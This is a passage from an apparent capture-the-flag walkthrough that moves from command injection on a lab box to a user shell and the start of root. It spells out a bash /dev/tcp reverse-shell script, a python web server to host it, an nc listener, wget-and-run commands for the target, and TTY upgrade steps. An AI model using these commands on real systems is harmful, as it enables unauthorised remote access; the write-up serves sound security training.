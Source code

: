 Now if we run this python script, we can put in whatever command we want to run and it will spit out the encoded version for us. All we have to do is paste it in right after `name=` in the request. Therefore, from here until the start of the Root section, whenever we run a command on the box I'm going to just write down the command to run and it'll be implied that it should be encoded using this script and then sent to the box using Burp.

## User
Our method for code execution really limits our ability to use special characters, so getting a shell is a bit tricky. It's easy to execute once you have it figured out though.

The first thing we'll do is set things up on our local machine so we can have the box download a file we host. In a new terminal window, enter

```bash
mkdir www
cd www
echo 'bash -i >& /dev/tcp/<YOUR IP ADDRESS>/9002 0>&1' >> stby.sh
```

*__Note:__ remember to replace `<YOUR IP ADDRESS>` with your IP.*

This will create a folder for us that we can safely expose to the internet and then put a script called `stby.sh` into that folder that we can use for the reverse shell.

Next, run

```bash
python -m http.server
```

This will start a web server that we can use to transfer files to the box.

Lastly, let's set up our listener so we can catch the reverse shell. Run this in a new terminal window

```bash
bash #this will make our shell upgrade later a bit easier. You might not need this if your terminal defaults to bash already.
nc -lvnp 9002
```

Now we'll use Burp and that python script we downloaded from GitHub earlier to run the following commands on the box, one at a time

```bash
wget http://<YOUR IP ADDRESS>:8000/stby.sh
bash stby.sh
```

and we get a shell back on our netcat listener.

## Root
### Shell Upgrade

First, let's upgrade our shell so it's a bit more user-friendly. Run

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```
Next we'll background the shell with `CTRL+Z` and then run this command so we can send through keyboard shortcuts
```bash
stty raw -echo
``` 
Next run this to bring the shell back to the foreground _(Note: you won't be able to see the input on the screen)_
```bash
fg
```
Hit `ENTER` twice
